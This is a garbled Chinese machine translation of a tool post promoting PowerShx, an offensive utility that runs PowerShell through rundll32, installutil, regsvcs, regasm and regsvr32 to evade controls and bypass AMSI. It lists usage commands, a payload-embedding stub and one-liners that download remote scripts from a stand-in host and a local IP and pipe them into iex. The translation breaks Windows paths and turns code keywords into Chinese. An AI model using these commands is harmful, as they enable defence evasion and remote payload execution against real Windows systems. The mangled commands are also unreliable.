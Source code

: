# PowerShx:不受软件限制地运行 Powershell

> 原文：<https://kalilinuxtutorials.com/powershx/>

[![](img/1fc5c421694a352d19da4fe2af74b572.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjvhCMisufwH_9ygaNxDXAEO0hw7oKd0yFFjfvRD_g8yalNy9NnrcnjlLuRD6eb3df1qvGbW859rwUlhITawN3jMywy_q733QyRlK8viZI-y130rWQcfRUgN41ExP1bA0KZraPijAEp9cX2XRc1fRa2fa7B9cojLTOgdQCTlhTAaNOKmwB0s49HYnmq=s707)

**PowerShx** 是对 PowerShdll 项目的重写和扩展。PowerShx 提供了绕过 AMSI 和运行 PS Cmdlets 的功能。

**特色**

*   使用 rundll32.exe、installutil.exe、regsvcs.exe 或 regsvr32.exe regasm.exe 运行带有 dll 的 Powershell。
*   不使用 powershell.exe 或 powershell_ise.exe 运行 Powershell
*   AMSI 旁路功能。
*   直接从命令行或 Powershell 文件运行 Powershell 脚本
*   导入 Powershell 模块并执行 Powershell Cmdlets。

**用法**

T1。dll 版本

**rundll32**

**rundll32 PowerShx.dll，main -e
rundll32 PowerShx.dll，main -f 运行作为参数传递的脚本
rundll32 PowerShx.dll，main -f -c 加载脚本并运行 PS cmdlet
rundll32 powershx . dll，main -w 在新窗口中启动交互控制台
rundll32 PowerShx.dll，main -i 启动交互控制台
rundll32 PowerShx**

**备选方案(这些技术的分包商的信用)**

**x86–C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ installutil . exe/log file =/logto console = false/U PowerShx.dll
x64–C:\ Windows \ Microsoft。NET \ framework 64 \ v 4 . 0 . 3031964 \ installutil . exe/log file =/logto console = false/U PowerShx.dll
x86 C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ regsvcs . exe PowerShx.dll
x64 C:\ Windows \ Microsoft。NET \ framework 64 \ v 4 . 0 . 30319 \ regsvcs . exe PowerShx.dll
x86 C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ regasm . exe/U PowerShx.dll
x64 C:\ Windows \ Microsoft。NET \ framework 64 \ v 4 . 0 . 30319 \ regasm . exe/U PowerShx.dll
regsvr 32/s/U PowerShx.dll—>调用 DllUnregisterServer
regsvr 32/s PowerShx.dll—>调用 DllRegisterServer**

**。exe 版本**

**PowerShx.exe-我启动一个交互控制台
PowerShx.exe-e
PowerShx.exe-f 运行作为参数传递的脚本
PowerShx.exe-f-c 加载一个脚本并运行一个 PS cmdlet
PowerShx.exe-s 试图绕过 AMSI。**

**嵌入式有效载荷**

可以通过更新数据字典“Common”来嵌入有效载荷。Payloads.PayloadDict”并在方法 PsSession.cs -> Handle()中调用它。示例:在 Handle()方法中:

**私有 void 句柄(Options 选项)
{
//用户脚本前预执行
_ps。有效负载。payload dict[" amsi "])；
}**

**例题**

**运行 base64 编码的脚本**

**rundll32 PowerShx.dll，main[系统。Text.Encoding]::默认。GetString([System。convert]::from base64 string(" base64 "))PowerShx.exe ^| iex
e【系统。Text.Encoding]::默认。GetString([System。convert]::from base64 string(" base64 "))^| iex**

注意:帝国 stagers 需要用[System]解码。Text.Encoding]::Unicode

**运行 base64 编码的**脚本

**rundll32 PowerShx.dll，main。{ iwr-useb https://website.com/Script.ps1 } ^| iex；
PowerShx.exe-e”IEX((new-object net . webclient)。download string(' http://192 . 168 . 100/payload-http ')"**

**要求**

。网络 4

[**Download**](https://github.com/iomoath/PowerShx)